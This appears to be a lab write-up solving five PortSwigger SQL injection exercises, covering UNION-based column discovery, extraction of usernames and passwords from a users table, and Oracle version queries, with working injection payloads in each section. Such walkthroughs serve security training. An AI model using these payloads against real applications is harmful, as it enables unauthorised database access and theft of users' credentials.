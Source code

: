 <!-- omit in toc -->
# SQL Injection

<!-- omit in toc -->
## Table of Contents

- [SQL injection UNION attack, determining the number of columns returned by the query](#sql-injection-union-attack-determining-the-number-of-columns-returned-by-the-query)
- [SQL injection UNION attack, finding a column containing text](#sql-injection-union-attack-finding-a-column-containing-text)
- [SQL injection UNION attack, retrieving data from other tables](#sql-injection-union-attack-retrieving-data-from-other-tables)
- [SQL injection UNION attack, retrieving multiple values in a single column](#sql-injection-union-attack-retrieving-multiple-values-in-a-single-column)
- [SQL injection attack, querying the database type and version on Oracle](#sql-injection-attack-querying-the-database-type-and-version-on-oracle)

## SQL injection UNION attack, determining the number of columns returned by the query
Reference: https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

<!-- omit in toc -->
### Quick Solution
The ``category`` parameter is vulnerable to SQL Injection, use a **UNION** attack to retrieve the number of columns, the payload is simply:
```
# Keep adding NULL until the error disappears
'+UNION+SELECT+NULL,NULL--
```
<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Modify the ``category`` parameter, giving it the value ``'+UNION+SELECT+NULL--``. Observe that an error occurs.
3. Modify the category parameter to add an additional column containing a null value: 
```
'+UNION+SELECT+NULL,NULL--
```
4. Continue adding null values until the error disappears and the response includes additional content containing the null values.

## SQL injection UNION attack, finding a column containing text
Reference: https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text

<!-- omit in toc -->
### Quick Solution
The ``category`` parameter is vulnerable to SQL Injection, combine the previous payload to retrieve the number of columns and then change the ``NULL`` value one by one with a random string to find a column that contains text. Payload in the next section

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the ``category`` parameter: 
```
'+UNION+SELECT+NULL,NULL,NULL--
```
3. Try replacing each null with the random value provided by the lab, for example: 
```
'+UNION+SELECT+'abcdef',NULL,NULL--
```
4. If an error occurs, move on to the next null and try that instead.

## SQL injection UNION attack, retrieving data from other tables
Reference: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

<!-- omit in toc -->
### Quick Solution
Use the previous payloads to retrieve the number of columns and which columns contain text data. The description says that there is a ``users`` table with columns called ``username`` and ``password``. Use the following payload to retrieve the contents of ``users`` table:
```
'+UNION+SELECT+username,+password+FROM+users--
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: 
```
'+UNION+SELECT+'abc','def'--.
```
3. Use the following payload to retrieve the contents of the users table: 
```
'+UNION+SELECT+username,+password+FROM+users--
```
4. Verify that the application's response contains usernames and passwords.

## SQL injection UNION attack, retrieving multiple values in a single column
Reference: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column

<!-- omit in toc -->
### Quick Solution
The original query returns two colums, but only one contains text. Multiple values can be retrieved together including a suitable separator to let distinguish the combined values. The payload for this lab is the following:
```
' UNION SELECT username || '~' || password FROM users--
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the ``category`` parameter: 
```
'+UNION+SELECT+NULL,'abc'--
```
3. Use the following payload to retrieve the contents of the users table: 
```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
4. Verify that the application's response contains usernames and passwords.

## SQL injection attack, querying the database type and version on Oracle
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

<!-- omit in toc -->
### Quick Solution
Be aware that on Oracle databases every ``SELECT`` statement must specify a table to select ``FROM``. There is a built-in table on Oracle called ``dual`` which can be used for this purpose. After retrieving the number of columns and which column contains data the SQL Injection cheatsheet can be used to discover how to retrieve the version on Oracle databases. The payload is the following:
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

<!-- omit in toc -->
### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: 
```
'+UNION+SELECT+'abc','def'+FROM+dual--
```
3. Use the following payload to display the database version: 
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```